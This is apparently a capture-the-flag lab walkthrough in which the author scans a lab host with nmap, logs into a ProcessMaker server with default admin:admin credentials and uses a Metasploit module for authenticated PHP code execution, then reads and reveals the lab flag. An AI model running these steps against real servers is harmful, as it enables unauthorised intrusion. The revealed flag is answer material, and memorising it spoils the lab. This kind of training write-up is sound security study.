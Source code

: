 # 🔬Win Workflow Platform - MSF

## Lab 1

>  🔬 [Windows: Workflow Platform](https://attackdefense.com/challengedetailsnoauth?cid=1946)
>
>  - Target IP: `10.2.27.1`
>  - Exploit a vulnerable ProcessMaker server with **Metasploit**

```bash
nmap -sS -sV 10.2.27.1
```

```bash
80/tcp    open  http               Apache httpd 2.2.23 ((Win32) PHP/5.2.14)
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3306/tcp  open  mysql              MySQL (unauthorized)
3389/tcp  open  ssl/ms-wbt-server?
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49155/tcp open  msrpc              Microsoft Windows RPC
49156/tcp open  msrpc              Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
```

### Enumeration

- Explore the web application hosted on the web server, before running any vuln scanners

```bash
firefox 10.2.27.1
```

![](4-exploitationassets/image-20230423234005218.png)

- View the web page source code. In this case no **version information** can be found.
- Search online for `ProcessMaker` [default credentials](https://wiki.processmaker.com/index.php/2.0/Login_Settings#:~:text=If%20ProcessMaker%20was%20just%20installed,Password%3A%20admin)
  - `admin`:`admin`

![ProcessMaker v. 2.5.0](4-exploitationassets/image-20230423234454523.png)

### Exploitation

```bash
searchsploit ProcessMaker
# Try "ProcessMaker Open Source - (Authenticated) PHP Code Execution (Metasploit)"

cd Desktop
searchsploit -m 29325
less 29325.rb
rm 29325.rb
# In this case a Metasploit module will be used
```

```bash
service postgresql start && msfconsole -q
```

```bash
db_status
setg RHOSTS 10.2.27.1
setg RHOST 10.2.27.1
workspace -a ProcessMaker
```

```bash
search ProcessMaker
use exploit/multi/http/processmaker_exec
options
set USERNAME admin
set PASSWORD admin
run
```

![Metasploit - exploit/multi/http/processmaker_exec](4-exploitationassets/image-20230423235111771.png)

```bash
pwd
cd /
dir
cat flag.txt
```



<details>
<summary>Reveal Flag: 🚩</summary>



`a3dcb4d229de6fde0db5686dee47145d`

![](4-exploitationassets/image-20230423235156384.png)

</details>

------

